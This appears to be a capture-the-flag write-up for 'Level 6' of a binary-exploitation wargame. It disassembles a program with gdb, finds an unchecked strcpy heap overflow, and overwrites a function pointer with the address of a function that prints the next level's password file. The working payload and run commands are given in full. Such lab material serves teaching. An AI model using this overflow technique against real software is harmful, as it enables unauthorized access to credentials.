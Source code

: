 # Level 6

## First clue
- once logged in as level6 we find again an executable  owned by `level7` 
- we try to execute it without arguments and we get a segfault
- if we write one or more alpha and numeric argiments, we get back `Nope`

## Inspect with gdb
- `(gdb) info function` reveals main, n and m functions, but also a system call, malloc and strcpy. 
```
0x080482f4  _init
0x08048340  strcpy
0x08048340  strcpy@plt
0x08048350  malloc
0x08048350  malloc@plt
0x08048360  puts
0x08048360  puts@plt
0x08048370  system
0x08048370  system@plt
0x08048380  __gmon_start__
0x08048380  __gmon_start__@plt
0x08048390  __libc_start_main
0x08048390  __libc_start_main@plt
0x080483a0  _start
0x080483d0  __do_global_dtors_aux
0x08048430  frame_dummy
0x08048454  n
0x08048468  m
0x0804847c  main
0x080484e0  __libc_csu_init
0x08048550  __libc_csu_fini
0x08048552  __i686.get_pc_thunk.bx
0x08048560  __do_global_ctors_aux
0x0804858c  _fini

```
## Main
```
    0x0804847c <+0>:	push   %ebp
   0x0804847d <+1>:	mov    %esp,%ebp
   0x0804847f <+3>:	and    $0xfffffff0,%esp
   0x08048482 <+6>:	sub    $0x20,%esp
   0x08048485 <+9>:	movl   $0x40,(%esp)
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
   0x08048491 <+21>:	mov    %eax,0x1c(%esp)
   0x08048495 <+25>:	movl   $0x4,(%esp)
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:	mov    %eax,0x18(%esp)
   0x080484a5 <+41>:	mov    $0x8048468,%edx
   0x080484aa <+46>:	mov    0x18(%esp),%eax
   0x080484ae <+50>:	mov    %edx,(%eax)
   0x080484b0 <+52>:	mov    0xc(%ebp),%eax
   0x080484b3 <+55>:	add    $0x4,%eax
   0x080484b6 <+58>:	mov    (%eax),%eax
   0x080484b8 <+60>:	mov    %eax,%edx
   0x080484ba <+62>:	mov    0x1c(%esp),%eax
   0x080484be <+66>:	mov    %edx,0x4(%esp)
   0x080484c2 <+70>:	mov    %eax,(%esp)
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:	mov    0x18(%esp),%eax
   0x080484ce <+82>:	mov    (%eax),%eax
   0x080484d0 <+84>:	call   *%eax
   0x080484d2 <+86>:	leave  
   0x080484d3 <+87>:	ret    


```
- Disassemblying main we find out that it exposes a buffer flow vulnerability using a not protected strcpy:  strcpy is called to copy a string pointed to by %edx into the buffer allocated by malloc, whose address is stored in %eax. The problem with this code is that strcpy does not check the size of the destination buffer. It simply copies bytes from the source string until it encounters a null terminator (\0). If the source string is larger than the destination buffer, it will overflow the buffer.

## Function m

- it does nothing but call puts

## Function n (not called anywhere)
```
   0x08048454 <+0>:	push   %ebp
   0x08048455 <+1>:	mov    %esp,%ebp
   0x08048457 <+3>:	sub    $0x18,%esp
   0x0804845a <+6>:	movl   $0x80485b0,(%esp)
   0x08048461 <+13>:	call   0x8048370 <system@plt>
   0x08048466 <+18>:	leave  
   0x08048467 <+19>:	ret 

```
- interesting, it contains a system call.
If we inspect the argument passed to the system call we get this:
```
(gdb) x/s 0x80485b0
0x80485b0:	 "/bin/cat /home/user/level7/.pass"
```
- this is the reason why we need to find a way to execute function n.
- Function n addressn as it appears in `info function` is `0x08048454`
- if we find the offset of the buffer of strcpy in main and place in the return of main the address of n, insteadd of returning we execute the n function.

## Exploit
- to find the offset of the strcpy buffer we run the program in gdb passing as argument a long string made of set of 4 char (in 32 bit architecture alignement memory addresses are divisible by 4) of the alphabet, lower and uppercase:
```
(gdb) run "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz'
```
- we get `Program received signal SIGSEGV, Segmentation fault.
0x53535353 in ?? ()`
- 53 is the ASCII for "S" at position 73, so the end of the buffer is at position 72 => `echo "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRS" | grep -o .  |  wc -l`
- we store in /tmp/exploit 72 letters + the address of n function (reversed for little endian) and pass /tmp/exploit as argument to ./level6
- `python -c 'print "a"*72+"\x54\x84\x04\x08"' > /tmp/exploit`
- `./level6 $(cat /tmp/exploit)`
- we get the flag